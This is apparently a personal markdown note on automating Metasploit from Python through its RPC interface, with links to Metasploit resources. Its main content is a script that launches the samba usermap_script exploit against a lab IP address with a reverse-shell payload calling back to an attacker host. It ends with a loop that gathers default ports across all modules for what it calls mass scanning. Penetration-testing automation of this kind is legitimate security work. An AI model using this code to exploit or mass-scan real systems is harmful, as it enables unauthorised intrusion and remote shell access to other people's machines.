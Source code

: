 ```yaml
---
title: Metasploit scripting and more
created: '2024-03-31T04:25:36.000Z'
modified: '2024-05-30T06:27:37.628Z'
---
```


# Metasploit scripting and more

vulnerability scanners:

https://dradis.com/ce/

---

[metasploit-framework](https://rubygems.org/gems/metasploit-framework) is a ruby gem.

---

https://www.infosecmatter.com/metasploit-module-library/

https://rubyfu.net/module-0x5-or-exploitation-kung-fu/metasploit/auxiliary-module

---

[mad-metasploit](https://github.com/hahwul/mad-metasploit) custom metasploit scripts

---

[metasploit unleashed](https://www.offsec.com/metasploit-unleashed/)

[official metasploit documentation](https://docs.metasploit.com/)

---

metasploit has enabled ssl by default. http will not work.

install package:

```bash
pip3 install pymetasploit3
```

launch metasploit background rpc service:
```bash
# get help
msfrpcd -h
# start background service
msfrpcd -P lazero
# or if you want foreground service
msfrpcd -P lazero -f
```


run script:

```python
from pymetasploit3.msfrpc import MsfRpcClient
import os

PWD = "lazero"

custom_module_path = "custom_msf_module"
assert os.path.exists(custom_module_path), (
    "Custom module path not found at: '%s'" % custom_module_path
)

# write custom python modules with:
# https://docs.metasploit.com/docs/development/developing-modules/external-modules/writing-external-python-modules.html


client = MsfRpcClient(
    password=PWD, ssl=True
)  # requires ssl by default. otherwise won't work

# the module structure must be identical to the one at , otherwise it will not load.
client.core.addmodulepath(os.path.abspath(custom_module_path))

exploit_id = "multi/samba/usermap_script"
exp_mod = client.modules.use("exploit", exploit_id)

RHOST = "172.16.194.172"
LHOST = "172.16.194.163"

exp_mod.runoptions["RHOST"] = RHOST  # this host is not running.
exp_mod.runoptions["PAYLOAD"] = "cmd/unix/reverse"
exp_mod.runoptions["LHOST"] = LHOST

msf_console = (
    client.consoles.console()
)  # you can manually read/write instead of using below method.
# timeout: 301 seconds.
exploit_run_output = msf_console.run_module_with_output(exp_mod)  # str
print(exploit_run_output)  # now have output. but still it is not streaming.
# you may want to overwrite the original implementation. the data is actually produced step by step.

run_output_file = "samba_usermap_script_output.log"
with open(run_output_file, "w+") as f:
    f.write(exploit_run_output)
print("[metasploit]", "output file saved at:", run_output_file)
# thank you very much.

```

---

To do mass scanning, first we need to obtain the default RPORT for each exploit.

```python
module_types = ['exploits','auxiliary', "encoders", "nops", "payloads", 'post']

for mt_plural in module_types:
    module_type = mt_plural.rstrip('s')
    for name in all_module_names:
        mod = client.modules.use(module_type, name)
        # get default RPORT
        default_rport = mod.runoptions.get("RPORT", None)
```
